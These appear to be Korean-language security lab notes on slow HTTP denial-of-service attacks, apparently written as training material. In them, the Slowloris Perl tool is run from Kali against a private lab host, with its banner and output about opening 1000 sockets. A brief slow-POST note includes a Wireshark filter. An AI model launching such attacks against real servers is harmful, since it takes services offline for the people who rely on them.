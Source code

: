 ```
.
.
.

```

하면 XP에서 접속 불가요~

이때 와이어샤크 Filter : http.request.method ==POST -> 근데 이것도 엄청 느리게 보내기 때문에 와이어샤크도 느리게 결과 나옴



##### Slow HTTP Header DOS (=Slowloris) (130p)

root@kali-04:~/Desktop# vim slowloris.pl

->google에 slowloris script 검색 후 두번째 게시글에 두번째 파일 복붙해서 넣음

```
root@kali-04:~/Desktop# perl slowloris.pl -dns 172.16.10.20
CCCCCCCCCCOOCCOOOOO888@8@8888OOOOCCOOO888888888@@@@@@@@@8@8@@@@888OOCooocccc::::
CCCCCCCCCCCCCCCOO888@888888OOOCCCOOOO888888888888@88888@@@@@@@888@8OOCCoococc:::
CCCCCCCCCCCCCCOO88@@888888OOOOOOOOOO8888888O88888888O8O8OOO8888@88@@8OOCOOOCoc::
CCCCooooooCCCO88@@8@88@888OOOOOOO88888888888OOOOOOOOOOCCCCCOOOO888@8888OOOCc::::
CooCoCoooCCCO8@88@8888888OOO888888888888888888OOOOCCCooooooooCCOOO8888888Cocooc:
ooooooCoCCC88@88888@888OO8888888888888888O8O8888OOCCCooooccccccCOOOO88@888OCoccc
ooooCCOO8O888888888@88O8OO88888OO888O8888OOOO88888OCocoococ::ccooCOO8O888888Cooo
oCCCCCCO8OOOCCCOO88@88OOOOOO8888O888OOOOOCOO88888O8OOOCooCocc:::coCOOO888888OOCC
oCCCCCOOO88OCooCO88@8OOOOOO88O888888OOCCCCoCOOO8888OOOOOOOCoc::::coCOOOO888O88OC
oCCCCOO88OOCCCCOO8@@8OOCOOOOO8888888OoocccccoCO8O8OO88OOOOOCc.:ccooCCOOOO88888OO
CCCOOOO88OOCCOOO8@888OOCCoooCOO8888Ooc::...::coOO88888O888OOo:cocooCCCCOOOOOO88O
CCCOO88888OOCOO8@@888OCcc:::cCOO888Oc..... ....cCOOOOOOOOOOOc.:cooooCCCOOOOOOOOO
OOOOOO88888OOOO8@8@8Ooc:.:...cOO8O88c.      .  .coOOO888OOOOCoooooccoCOOOOOCOOOO
OOOOO888@8@88888888Oo:. .  ...cO888Oc..          :oOOOOOOOOOCCoocooCoCoCOOOOOOOO
COOO888@88888888888Oo:.       .O8888C:  .oCOo.  ...cCCCOOOoooooocccooooooooCCCOO
CCCCOO888888O888888Oo. .o8Oo. .cO88Oo:       :. .:..ccoCCCooCooccooccccoooooCCCC
coooCCO8@88OO8O888Oo:::... ..  :cO8Oc. . .....  :.  .:ccCoooooccoooocccccooooCCC
:ccooooCO888OOOO8OOc..:...::. .co8@8Coc::..  ....  ..:cooCooooccccc::::ccooCCooC
.:::coocccoO8OOOOOOC:..::....coCO8@8OOCCOc:...  ....:ccoooocccc:::::::::cooooooC
....::::ccccoCCOOOOOCc......:oCO8@8@88OCCCoccccc::c::.:oCcc:::cccc:..::::coooooo
.......::::::::cCCCCCCoocc:cO888@8888OOOOCOOOCoocc::.:cocc::cc:::...:::coocccccc
...........:::..:coCCCCCCCO88OOOO8OOOCCooCCCooccc::::ccc::::::.......:ccocccc:co
.............::....:oCCoooooCOOCCOCCCoccococc:::::coc::::....... ...:::cccc:cooo
 ..... ............. .coocoooCCoco:::ccccccc:::ccc::..........  ....:::cc::::coC
   .  . ...    .... ..  .:cccoCooc:..  ::cccc:::c:.. ......... ......::::c:cccco
  .  .. ... ..    .. ..   ..:...:cooc::cccccc:.....  .........  .....:::::ccoocc                                              
       .   .         .. ..::cccc:.::ccoocc:. ........... ..  . ..:::.:::::::ccco                                              
 Welcome to Slowloris - the low bandwidth, yet greedy and poisonous HTTP client                                               
Defaulting to port 80.                                                                                                        
Defaulting to a 5 second tcp connection timeout.                                                                              
Defaulting to a 100 second re-try timeout.                                                                                    
Defaulting to 1000 connections.                                                                                               
Multithreading enabled.                                                                                                       
Connecting to 172.16.10.20:80 every 100 seconds with 1000 sockets:                                                            
                Building sockets.                                                                                               
```